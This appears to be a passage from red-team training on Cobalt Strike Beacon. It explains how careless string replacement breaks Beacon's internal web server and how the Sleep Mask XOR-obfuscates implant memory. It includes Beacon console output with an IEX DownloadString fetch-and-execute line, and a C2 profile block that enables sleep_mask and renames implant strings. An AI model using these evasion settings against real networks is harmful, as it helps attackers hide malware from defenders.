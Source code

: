
---

#### Warning on String Replacement

I've seen people attempt to replace practically every string they can find in the Beacon payload, break functionality, and not understand why.  Take the following example:
```
strrep "HTTP/1.1 200 OK" "";
```

Beacon contains a tiny built-in HTTP server, used in workflows such as `powershell-import`, `powershell` and `powerpick`.  Imported scripts are fetched and executed from this internal webserver.
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain

beacon> powerpick Get-Domain
[+] received output:
ERROR: DownloadString : Exception calling "DownloadString" with "1" argument(s): "The server committed a p
ERROR: rotocol violation. Section=ResponseStatusLine"
ERROR: 
ERROR: At line:1 char:46
ERROR: + IEX (New-Object Net.Webclient).DownloadString <<<< ('http://127.0.0.1:41100/'); Get-Domain
ERROR:     + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
ERROR:     + FullyQualifiedErrorId : DotNetMethodException
ERROR:  
ERROR: Get-Domain : The term 'Get-Domain' is not recognized as the name of a cmdlet, function, script file
ERROR: , or operable program. Check the spelling of the name, or if a path was included, verify that the p
ERROR: ath is correct and try again.
```

PowerShell throws a _protocol violation_, because Beacon's internal server is no longer returning properly-formatted HTTP responses.  This can be seen in these example Wireshark captures.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/sleep-mask/strrep-fail.png)


There are more indicators within memory than simple strings, so the Sleep Mask was added as a means of providing more fine-grained control.  This allows Beacon to completely obfuscate its memory whilst sleeping.  Just prior to going to sleep, Beacon walks its own memory sections and XORs them with a random key.  After the sleep has elapsed, it walks back over the same sections and restores them.  It's important to know that Beacon is only obfuscated whilst it's not doing anything.  It must deobfuscate itself to check-in and execute jobs.

To enable the Sleep Mask, add the `sleep_mask` directive into C2 profile, generate new shellcode and inject it.
```json
stage {
        set userwx "false";
        set cleanup "true";
        set sleep_mask "true";

        transform-x64 {
                strrep "beacon.x64.dll" "not-beacon.dll";
                strrep "ReflectiveLoader" "LoadData";
        }
}
```
